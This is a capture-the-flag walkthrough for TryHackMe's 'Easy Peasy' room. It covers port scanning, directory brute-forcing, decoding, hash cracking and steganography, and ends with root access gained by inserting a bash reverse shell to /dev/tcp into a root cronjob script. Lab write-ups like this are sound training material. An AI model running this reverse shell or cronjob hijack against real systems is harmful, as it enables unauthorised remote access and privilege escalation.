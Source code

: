# [Easy Peasy](https://tryhackme.com/room/easypeasyctf)

> Darshan Patel

## Overview

| Tables | Description |
| ------ | ----------- |
| Challenge Name | Easy Peasy |
| Difficulty | Easy |
| Tags | nmap, stego, gobuster, cronjob |

---

```bash
export IP=10.10.51.109
```

---

## Solution
- How many ports are open?

	- `nmap <TARGET_IP>`
	- `3`

- What is the version of nginx?

	- `nmap -sV <TARGET_IP>`
	- `1.16.1`

- What is running on the highest port?

	- `apache`

- Using GoBuster, find flag 1.

	- `gobuster dir -u http://<TARGET_IP>/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`
	- We find `/hidden`.
	- Go in depth. `gobuster dir -u http://<TARGET_IP>/hidden/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`
	- We find `/whatever`
	- Inspect page source.
	- `ZmxhZ3tmMXJzN19mbDRnfQ==`
	- `echo -n ZmxhZ3tmMXJzN19mbDRnfQ== | base64 -d`
	- `flag{f1rs7_fl4g}`

- Further enumerate the machine, what is flag 2?

	- I remember you there is another server public exposed. Go to `http://<TARGET_IP>:65524`.
	- With the same previous command of gobuster we can see there is a robots.txt file.
	- `a18672860d0510e5ab6699730763b250`
	- `hash-identifier`
	- Just search on google
	- `flag{1m_s3c0nd_fl4g}`

- Crack the hash with easypeasy.txt, What is the flag 3?

	- Inspect source code of default Apache page.
	- `flag{9fdafbd64c47471a8f54cd3fc64cd312}`

- What is the hidden directory?

	- Looking at the second server (apache) index page source code I found `its encoded with ba....:ObsJmP173N2X6dOrAgEAL0Vu`.
	- Play a bit with CyberChef.
	- `/n0th1ng3ls3m4tt3r` (base62).
	
- Using the wordlist that provided to you in this task crack the hash
what is the password?

	- Go to this directory with a browser and inspect source code.
	- `940d71e8655*********8ab85066**********418**********83e7f5fe6*d81`
	- `hash-identifier`
	- `john --wordlist=easypeasy.txt --format=gost hash.txt`
	- `mypass*************`

- What is the password to login to the machine via SSH?

	- Download the central image on the page (`http://<TARGET_IP>:65524/n0th1ng3ls3m4tt3r`)
	- `steghide extract -sf binarycodepixabay.jpg` and enter the password.
	- In the new file you will have a username and a binary password.
	- Just convert to text the binary code.
	- `***********************binary`

- What is the user flag?

	- Login into ssh (not port 22, remember the output of nmap).
	- `cat user.txt`
	- This isn't the real flag. Just use ROT13.
	- `flag{n0wi************}`

- What is the root flag?

	- Try to search something related to cronjob.
	- `cat /etc/crontab`
	- uuuuuuuuh `/var/www/.mysecretcronjob.sh`
	- This code will be executed as root, so:
	- Insert this on that file: `/bin/bash -i >& /dev/tcp/<YOUR_IP>/4444 0>&1`
	- On your machine `nc -lnvp 4444`
	- `cat /root/flag.txt` ......
	- wat?
	- oH. Ok. `cat /root/.root.txt`
	- `flag{63a**0e******05079**********1845}`
